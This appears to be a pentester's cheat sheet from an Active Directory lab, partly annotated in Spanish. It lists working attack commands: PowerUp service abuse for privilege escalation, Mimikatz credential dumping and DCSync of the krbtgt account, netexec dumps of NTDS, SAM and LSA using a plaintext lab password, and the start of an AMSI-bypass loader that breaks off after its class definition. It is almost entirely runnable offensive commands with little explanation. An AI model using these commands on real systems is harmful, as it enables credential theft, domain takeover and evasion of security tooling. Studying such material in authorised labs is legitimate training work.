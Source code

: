 ## ![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&duration=6000&pause=1000&width=435&lines=Local+Privilege+Escalation)

```powershell
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
---
Invoke-ServiceAbuse -Name 'SNMPTRAP' -UserName 'dcorp\student116' -Verbose
#Check
net localgroup "Administrators"
---
.\SharpUp.exe audit UnquotedServicePath
.\SharpUp.exe audit ModifiableServices
```

## ![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&duration=6000&pause=1000&width=435&lines=Credential+Exfiltration)

```Powershell
Invoke-Mimi -Command "sekurlsa::logonpasswords"                     (Te da la mayoria de NTLM)
Invoke-Mimi -Command '"sekurlsa::ekeys"'                                (Dumpear)
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'        (Sacar Vault)
Invoke-Mimi -Command '"lsadump::lsa /patch"'                        (Sacar NTLM solo Administrator)
---DCSYNC
Invoke-Mimi -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
--Entre dominios
Invoke-Mimi -Command '"lsadump::trust"'
---NXC
. .\nxc.exe smb 172.16.4.44 -u ciadmin -p *ContinuousIntrusion123 -x whoami
. .\nxc.exe smb 172.16.4.44 -u ciadmin -p *ContinuousIntrusion123 --ntds
. .\nxc.exe smb 172.16.4.44 -u ciadmin -p *ContinuousIntrusion123 --lsa
. .\nxc.exe smb 172.16.4.44 -u ciadmin -p *ContinuousIntrusion123 --sam
```

## ![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&duration=6000&pause=1000&width=435&lines=Full+Enumeration)

```Powershell
#ADRecon.ps1
Import-Module ActiveDirectory
Import-Module .\Microsoft.ActiveDirectory.Management.dll
git clone https://github.com/sense-of-security/ADRecon.git
.\ADRecon.ps1
--
#bypassear AMSI .NET
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    
    [DllImport("kernel32.dll")]
    public static extern IntPtr LoadLibrary(string name);
    
    [DllImport("kernel32.dll")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
```